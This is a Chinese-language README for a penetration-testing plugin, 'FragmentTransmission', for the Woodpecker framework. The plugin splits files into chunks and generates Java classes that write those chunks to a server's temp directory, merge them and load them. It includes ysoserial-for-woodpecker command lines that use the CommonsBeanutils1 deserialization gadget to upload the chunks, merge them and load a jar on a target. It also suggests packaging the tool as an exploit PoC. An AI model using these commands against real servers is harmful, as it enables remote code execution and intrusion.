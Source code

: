 # Woodpecker分块传输插件-FragmentTransmission
![img.png](img.png)
## 功能介绍
1. 一键生成将文件分片
2. 动态生成分片文件写入与合并执行的Class

仅提供文件分片与Class生成功能，如需结合反序列化漏洞可使用`ysoserial-for-woodpecker`
上传分片文件
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "upload_file:分块1-10.file"
```

合并分片文件
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "class_file:MergeByNameCode1.class"
```
加载Jar
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "class_file:FileloaderInvokeFIlename.class"
```
测试发现BCEL没办法加载动态生成的Class

如需封装成漏洞POC工具自行修改

## 说明
1.FileSplitPlugin文件分片

2.GetTempLoad读取tmp目录下的文件合并，加载class测试分块文件完整使用

3.GenerateBlockClassTmpPlugin动态生成分块与合并class加载执行，写分块文件到tmp中

4.与3功能一致，可指定写入分块的路径，用于已知路径写入，推荐使用3

在Windows下路径使用`/`,否则在javassist会报错。


## 使用
FileSplitPlugin文件分片
![img_1.png](img_1.png)

GetTempLoad读取tmp目录下的文件合并，加载class测试分块文件完整使用

![img_3.png](img_3.png)

GenerateBlockClassTmpPlugin,生成Class文件代码将切片文件写入到临时文件夹中



GenerateBlockClassPathPlugin指定切片文件写入路径Class生成

![img_4.png](img_4.png)








